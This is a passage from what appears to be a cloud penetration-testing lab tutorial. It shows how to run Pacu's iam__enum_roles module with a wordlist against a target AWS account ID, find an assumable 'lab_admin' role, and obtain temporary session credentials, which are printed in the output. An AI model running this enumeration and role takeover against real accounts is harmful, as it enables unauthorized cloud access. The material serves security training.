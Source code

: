 > Listing 45 - Displaying Information About iam\_\_enum\_roles Module in pacu

The output returned more information about the module, including usage instructions and details of the arguments that we can send.

The **\--account-id** is a required flag that specifies the target's *AccountID* where we'll enumerate the roles.

The **\--word-list** flag let us specifies the wordlist of roles to try. We'll use the list that we already created in **/tmp/role-names.txt**.

This module requires an existing role in the *attacker*'s account. If we don't specify a role, the tool will create a temporary role (if the credentials in the *attacker* account have the permissions to run that action). We'll let the tool create a role for us, therefore we won't use the **\--role-name** flag.

We can use a module with the **run** command, followed by the name of the module and any other argument that we need to pass.

```
Pacu (offseclab:imported-attacker) > run iam__enum_roles --word-list /tmp/role-names.txt --account-id 123456789012
  Running module iam__enum_roles...
...

[iam__enum_roles] Targeting account ID: 123456789012

[iam__enum_roles] Starting role enumeration...

[iam__enum_roles]   Found role: arn:aws:iam::123456789012:role/lab_admin

[iam__enum_roles] Found 1 role(s):

[iam__enum_roles]     arn:aws:iam::123456789012:role/lab_admin

[iam__enum_roles] Checking to see if any of these roles can be assumed for temporary credentials...

[iam__enum_roles]   Role can be assumed, but hit max session time limit, reverting to minimum of 1 hour...

[iam__enum_roles]   Successfully assumed role for 1 hour: arn:aws:iam::123456789012:role/lab_admin

[iam__enum_roles] {
  "Credentials": {
    "AccessKeyId": "ASIAQOMAIGYUWZXRMMO2",
    "SecretAccessKey": "2UU80dtizqx3DUa9mn6033AjXKb13GXOMCy+tOUt",
    "SessionToken": "FwoGZXIvYXdzEO///////////wEaDCv5...",
    "Expiration": "2023-08-18 22:07:49+00:00"
  },
  "AssumedRoleUser": {
    "AssumedRoleId": "AROAQOMAIGYUR5KMGWT7V:dCkQ0O1y6n9KSQmGBaKJ",
    "Arn": "arn:aws:sts::123456789012:assumed-role/lab_admin/dCkQ0O1y6n9KSQmGBaKJ"
  }
}
Cleaning up the PacuIamEnumRoles-XbsIV role.
```
